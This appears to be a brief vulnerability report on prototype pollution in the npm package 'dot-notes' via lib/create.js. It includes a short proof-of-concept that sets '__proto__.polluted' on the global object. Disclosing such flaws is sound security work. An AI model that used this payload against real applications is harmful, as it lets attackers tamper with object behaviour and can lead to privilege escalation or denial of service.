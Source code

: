 # Description
```dot-notes``` is Simple dot/bracket notation parsing/conversion for JSON. 
This package is vulnerable to prototype pollution through ```dot-notes/lib/create.js```

# Proof-of-Concept
```
const note = require('./lib/create.js');
note({},'__proto__.polluted',true);
console.log(polluted)  \\true
```